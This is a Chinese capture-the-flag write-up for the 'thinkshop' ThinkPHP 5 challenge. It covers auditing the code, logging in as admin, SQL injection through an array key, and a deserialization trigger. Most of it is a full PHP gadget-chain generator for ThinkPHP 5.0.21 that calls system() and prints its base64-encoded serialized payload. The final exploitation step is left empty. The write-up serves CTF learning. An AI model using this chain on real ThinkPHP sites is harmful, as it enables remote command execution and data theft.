


# thinkshop复现

题目附件描述：
内部端口80，flag为环境变量设置flag
首先需要docker load < thinkshop.tar
docker run -tid --name thinkshop -p 36000:80 -e FLAG=flag{test_flag} thinkshop

## 考点

php代码审计、sql注入（key键注入）、反序列化

## WP

### 1. 启动docker，进入容器里，经过代码审计，发现有sql里有admin的登录账号1/123456和admin登录路径

在/var/www/html/application/index/controller/Admin.php中发现admin的登录路径

在根目录发现admin的登录密码

## 2登录后，再审计代码

审计代码发现，存在sql注入和序列化
> view 中 goods.html 会反序列化 goods 的 data 字段，思路时注入写入 exp，访问 goods.html 查看商品触发反序列化
> admin 可以修改商品信息，在编辑商品时可以 sql 注入。添加商品限制了 key 不能注入。虽然 hex 了 value, 但是可以用 key 打注入

## 3根据大佬的payload
> 利用SQL注入修改data数据的值，本题data是数组，且会插入数据库，最终的payload需要改一下让前后闭合，且TP5，在网上找一个链子的EXP改一下
> 用现有的 Tp 5.0.21 的链子本地可以打通，把最后的对象放到 array 里可以绕过限制
> https://www.freebuf.com/vuls/317886.html
~~~
<?php 
namespace think\process\pipes{
    use think\model\Pivot;
    ini_set('display_errors',1);
    class Windows{
        private $files = [];
        public function __construct($function,$parameter)
{
            $this->files = [new Pivot($function,$parameter)];
        }
    }
    $aaa = new Windows('system','nl /f*');
    echo base64_encode(serialize(array($aaa)));
}
namespace think{
    abstract class Model
    {}
}
namespace think\model{
    use think\Model;
    use think\console\Output;
    class Pivot extends Model
{
        protected $append = [];
        protected $error;
        public $parent;
        public function __construct($function,$parameter)
{
            $this->append['jelly'] = 'getError';
            $this->error = new relation\BelongsTo($function,$parameter);
            $this->parent = new Output($function,$parameter);
        }
    }
    abstract class Relation
{}
}
namespace think\model\relation{
    use think\db\Query;
    use think\model\Relation;
    abstract class OneToOne extends Relation
{}
    class BelongsTo extends OneToOne
{
        protected $selfRelation;
        protected $query;
        protected $bindAttr = [];
        public function __construct($function,$parameter)
{
            $this->selfRelation = false;
            $this->query = new Query($function,$parameter);
            $this->bindAttr = [''];
        }
    }
}
namespace think\db{
    use think\console\Output;
    class Query
{
        protected $model;
        public function __construct($function,$parameter)
{
            $this->model = new Output($function,$parameter);
        }
    }
}
namespace think\console{
    use think\session\driver\Memcache;
    class Output
{
        protected $styles = [];
        private $handle;
        public function __construct($function,$parameter)
{
            $this->styles = ['getAttr'];
            $this->handle = new Memcache($function,$parameter);
        }
    }
}
namespace think\session\driver{
    use think\cache\driver\Memcached;
    class Memcache
{
        protected $handler = null;
        protected $config  = [
            'expire'       => '',
            'session_name' => '',
        ];
        public function __construct($function,$parameter)
{
            $this->handler = new Memcached($function,$parameter);
        }
    }
}
namespace think\cache\driver{
    use think\Request;
    class Memcached
{
        protected $handler;
        protected $options = [];
        protected $tag;
        public function __construct($function,$parameter)
{
            // pop链中需要prefix存在，否则报错
            $this->options = ['prefix'   => 'jelly/'];
            $this->tag = true;
            $this->handler = new Request($function,$parameter);
        }
    }
}
namespace think{
    class Request
    {
        protected $get     = [];
        protected $filter;
        public function __construct($function,$parameter)
{
            $this->filter = $function;
            $this->get = ["jelly"=>$parameter];
        }
    }
}
~~~
> YToxOntpOjA7TzoyNzoidGhpbmtccHJvY2Vzc1xwaXBlc1xXaW5kb3dzIjoxOntzOjM0OiIAdGhpbmtccHJvY2Vzc1xwaXBlc1xXaW5kb3dzAGZpbGVzIjthOjE6e2k6MDtPOjE3OiJ0aGlua1xtb2RlbFxQaXZvdCI6Mzp7czo5OiIAKgBhcHBlbmQiO2E6MTp7czo1OiJqZWxseSI7czo4OiJnZXRFcnJvciI7fXM6ODoiACoAZXJyb3IiO086MzA6InRoaW5rXG1vZGVsXHJlbGF0aW9uXEJlbG9uZ3NUbyI6Mzp7czoxNToiACoAc2VsZlJlbGF0aW9uIjtiOjA7czo4OiIAKgBxdWVyeSI7TzoxNDoidGhpbmtcZGJcUXVlcnkiOjE6e3M6ODoiACoAbW9kZWwiO086MjA6InRoaW5rXGNvbnNvbGVcT3V0cHV0IjoyOntzOjk6IgAqAHN0eWxlcyI7YToxOntpOjA7czo3OiJnZXRBdHRyIjt9czoyODoiAHRoaW5rXGNvbnNvbGVcT3V0cHV0AGhhbmRsZSI7TzoyOToidGhpbmtcc2Vzc2lvblxkcml2ZXJcTWVtY2FjaGUiOjI6e3M6MTA6IgAqAGhhbmRsZXIiO086Mjg6InRoaW5rXGNhY2hlXGRyaXZlclxNZW1jYWNoZWQiOjM6e3M6MTA6IgAqAGhhbmRsZXIiO086MTM6InRoaW5rXFJlcXVlc3QiOjI6e3M6NjoiACoAZ2V0IjthOjE6e3M6NToiamVsbHkiO3M6NjoibmwgL2YqIjt9czo5OiIAKgBmaWx0ZXIiO3M6Njoic3lzdGVtIjt9czoxMDoiACoAb3B0aW9ucyI7YToxOntzOjY6InByZWZpeCI7czo2OiJqZWxseS8iO31zOjY6IgAqAHRhZyI7YjoxO31zOjk6IgAqAGNvbmZpZyI7YToyOntzOjY6ImV4cGlyZSI7czowOiIiO3M6MTI6InNlc3Npb25fbmFtZSI7czowOiIiO319fX1zOjExOiIAKgBiaW5kQXR0ciI7YToxOntpOjA7czowOiIiO319czo2OiJwYXJlbnQiO086MjA6InRoaW5rXGNvbnNvbGVcT3V0cHV0IjoyOntzOjk6IgAqAHN0eWxlcyI7YToxOntpOjA7czo3OiJnZXRBdHRyIjt9czoyODoiAHRoaW5rXGNvbnNvbGVcT3V0cHV0AGhhbmRsZSI7TzoyOToidGhpbmtcc2Vzc2lvblxkcml2ZXJcTWVtY2FjaGUiOjI6e3M6MTA6IgAqAGhhbmRsZXIiO086Mjg6InRoaW5rXGNhY2hlXGRyaXZlclxNZW1jYWNoZWQiOjM6e3M6MTA6IgAqAGhhbmRsZXIiO086MTM6InRoaW5rXFJlcXVlc3QiOjI6e3M6NjoiACoAZ2V0IjthOjE6e3M6NToiamVsbHkiO3M6NjoibmwgL2YqIjt9czo5OiIAKgBmaWx0ZXIiO3M6Njoic3lzdGVtIjt9czoxMDoiACoAb3B0aW9ucyI7YToxOntzOjY6InByZWZpeCI7czo2OiJqZWxseS8iO31zOjY6IgAqAHRhZyI7YjoxO31zOjk6IgAqAGNvbmZpZyI7YToyOntzOjY6ImV4cGlyZSI7czowOiIiO3M6MTI6InNlc3Npb25fbmFtZSI7czowOiIiO319fX19fX0=

## 4最后利用

